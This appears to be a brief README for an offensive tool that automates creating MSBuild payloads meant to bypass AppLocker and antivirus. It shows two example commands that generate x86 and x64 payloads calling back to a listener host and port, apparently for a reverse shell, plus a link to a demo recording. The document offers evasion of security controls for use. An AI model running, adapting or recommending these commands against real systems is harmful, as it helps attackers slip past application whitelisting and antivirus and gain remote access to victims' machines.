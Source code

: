 Msbuild is a great way to bypass Applockers and AVs, this tool simply automates the payload creation process.

[![asciicast](https://asciinema.org/a/M9QOxb7HPam1P9B1BQUdA3CpL.svg)](https://asciinema.org/a/M9QOxb7HPam1P9B1BQUdA3CpL?speed=2)

# Example 
```
sudo python msbuild_gen.py -a x86 -i 10 --lhost 192.168.220.130 --lport 9001 -m
sudo python msbuild_gen.py -a x64 -i 10 --lhost 192.168.220.130 --lport 9001
```

